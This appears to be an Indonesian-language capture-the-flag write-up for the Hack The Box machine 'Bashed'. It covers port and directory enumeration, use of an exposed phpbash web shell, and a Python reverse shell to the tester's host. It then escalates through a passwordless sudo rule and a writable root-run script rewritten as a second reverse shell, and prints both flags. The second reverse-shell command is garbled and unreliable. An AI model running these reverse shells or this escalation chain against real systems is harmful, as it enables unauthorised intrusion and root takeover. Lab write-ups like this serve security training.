

Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted.

IP: 10.129.39.120

---

## Information Gathering
Scan port yang terbuka:
```bash
$ nmap -Pn -p- -oN nmap_all_ports.txt --min-rate 1000 10.129.39.120
Nmap scan report for 10.129.39.120
Host is up (0.041s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http
```

Terdapat satu port terbuka, yaitu port 80 dengan service HTTP.

### Enumerasi HTTP
Cari direktori atau file menarik di port 80.
```bash
$ feroxbuster -u http://10.129.39.120 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -o feroxbuster.txt
301      GET        9l       28w      315c http://10.129.39.120/images => http://10.129.39.120/images/
200      GET        8l       35w     2447c http://10.129.39.120/images/logo.png
200      GET        8l       73w     2429c http://10.129.39.120/js/html5.js
200      GET      154l      394w     7477c http://10.129.39.120/single.html
200      GET       32l      116w     1222c http://10.129.39.120/css/carouFredSel.css
200      GET      680l     1154w    10723c http://10.129.39.120/css/common.css
---SNIP---
200      GET        0l        0w        0c http://10.129.39.120/php/sendMail.php
200      GET        1l      255w     4559c http://10.129.39.120/dev/phpbash.min.php
200      GET      216l      489w     8151c http://10.129.39.120/dev/phpbash.php
```

Terdapat dua file menarik, yaitu `phpbash.min.php` dan `phpbash.php`.

Ketika membuka file `phpbash.min.php`, kita mendapatkan halaman `shell`.



Selanjutnya, kita bisa melakukan reverse shell ke terminal kita supaya kita dapat leluasa menjalankan command.

```bash
$ nc -lnvp 1337
listening on [any] 1337
```

```bash
www-data@bashed:/var/www/html/dev# python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.4",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

```bash
$ nc -lnvp 1337
listening on [any] 1337
connect to [10.10.14.4] from (UNKNOWN) [10.129.39.120] 54284
$ whoami 
whoami
www-data
$
```

Sudah dapat shell, ternyata kita login sebagai `www-data`.

## Post Exploitation
Karena kita login sebagai pengguna dengan wewenang sedikit, maka kita perlu menaikkan wewenang kita ke yang lebih tinggi. Yaitu dengan Privilege Escalation.

### Linpeas
Jalankan linpeas, menemukan beberapa hal menarik.
```bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
---SNIP---
╔══════════╣ Unexpected in root
/scripts
/initrd.img
/.bash_history
/vmlinuz
```

Dengan sudo tanpa password, kita bisa pindah ke akun `scriptmanager`.

```bash
www-data@bashed:/$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/$
```

Cek direktori `/scripts`.
```bash
criptmanager@bashed:/scripts$ ls -lah
ls -lah
total 16K
drwxrwxr--  2 scriptmanager scriptmanager 4.0K Jun  2  2022 .
drwxr-xr-x 23 root          root          4.0K Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager  205 Dec  9 19:13 test.py
-rw-r--r--  1 root          root            12 Dec  9 19:13 test.txt
```

Terlihat bahwa kita bisa mengubah `test.py`. Di dalam `test.py` terdapat perintah untuk membuat `test.txt`. Karena `test.txt` milik root, maka ada kemungkinan `test.py` dijalankan oleh root.

Jadi, kita ubah isi `test.py` menjadi revshell baru.

```bash
scriptmanager@bashed:/scripts$ echo 'import socket,s.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4"up2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; 
<eno(),1);os.dup2(s.fileno(),2);import pty; pty.spaw
scriptmanager@bashed:/scripts$
```

```bash
╭─  MidnightRumble  ~                             
╰─❯ nc -lnvp 1234                                   
listening on [any] 1234 ...
connect to [10.10.14.4] from (UNKNOWN) [10.129.39.12]
# whoami
whoami
root
#
```

### user.txt
```bash
scriptmanager@bashed:/home$ cat arrexel/user.txt
cat arrexel/user.txt
27b41f7431caf2b873952ce0ee982a02
```

### root.txt
```bash
# cat root.txt
cat root.txt
836161db4f4d3b069946ca8d8a20b67b
#
```
